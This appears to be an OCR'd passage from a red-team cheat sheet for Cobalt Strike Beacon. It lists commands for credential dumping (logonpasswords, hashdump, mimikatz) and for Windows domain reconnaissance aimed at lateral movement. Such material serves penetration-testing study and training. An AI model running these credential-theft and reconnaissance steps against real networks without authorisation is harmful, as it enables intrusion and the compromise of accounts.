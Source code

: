 ``` ./teamserver <IP> <Password> [Path to Malleable C2 Profile] [Kill Date for Beacon Payloads - YYYY-MM-DD]``` - To start the Team Server
* ``` logonpasswords ``` - Recovers credentials - Risky, alternatives: 'GhostPack SafetyKatz.exe', 'Internal Monologue (current user)'
* ``` hashdump ``` - Recovers local account hashes - Risky, alternatives: 'dcsync', '```mimikatz !lsadump::sam ```(local)'

In CS, 'View' > 'Credentials' - To manage credentials 

### Mimikatz in Beacon ###
Mimikatz is a post-exploitation toolset for:
* Advanced Persistence
* Harvest 'Trust Material'
* Re-purpose 'Trust Material'

``` mimikatz <command> <arguments> ``` - Run mimikatz command

``` mimikatz !<command> <arguments> ``` - Elevate to SYSTEM and run mimikatz command

``` mimikatz @<command> <arguments> ``` - Use current token to run mimikatz command

[Mimikatz Github Wiki](https://github.com/gentilkiwi/mimikatz/wiki "Mimikatz Github Wiki")

- - - -

## Lateral Movement ##

#### Lateral Movement in Windows Networks ####
1. Reconnaissance: Targets and Users - Systems available for attack, admin users...
2. Use 'Trust Material' to become 'Admin User' - Tokens, hashes, creds, kerberos tickets
3. Attack - Steal files, run commands, execute payloads
4. Recover more 'Trust Material' and repeat

### Windows Enterprise ###
* Local User - Account on the system (.\user or COMPUTER\user)
* Domain User - User account on the domain controllers (DOMAIN\user)
* Local Administrator - User with admin rights on a system
* Domain Administrator - User with admin rights on the domain controller

### Reconnaissance ###
* Windows Commands - net, nltest...
* Net Module - Beacon's built-in net commands
* PowerView - ` powershell-import <path>/powerview.ps1 ` then ` powershell <command> <arguments> `
* SharpView

#### Which Domain am I on? ####
* Windows - ` run net view /DOMAIN `
* Net Module - ` net domain `
* PowerView - ` powershell Get-NetDomain `

#### Which Hosts are Domain Controllers? ####
* Windows - ` run /dclist:[DOMAIN] `, ` run net group "Domain Controllers" /DOMAIN `
* Net Module - ` net dclist [DOMAIN] `, ` net domain_controllers [DOMAIN] `
* PowerView - ` powershell Get-NetDomainController `

#### Which Hosts are in the Domain without Scanning? ####
* Windows - ` run net view /DOMAIN:[DOMAIN] `, ` run net group "Domain Computers" /DOMAIN ` 
* Net Module - ` net view [DOMAIN] `, ` net computers [DOMAIN.FQDN] `
* PowerView - ` powershell Get-NetComputer `

#### Turn NetBIOS Name to IP Address ####
` shell nslookup <NetBIOS Name> `, ` shell ping -n 1 <NetBIOS Name> `

#### How to Discover Domain Administrators ####
* Beacon's `run` command
```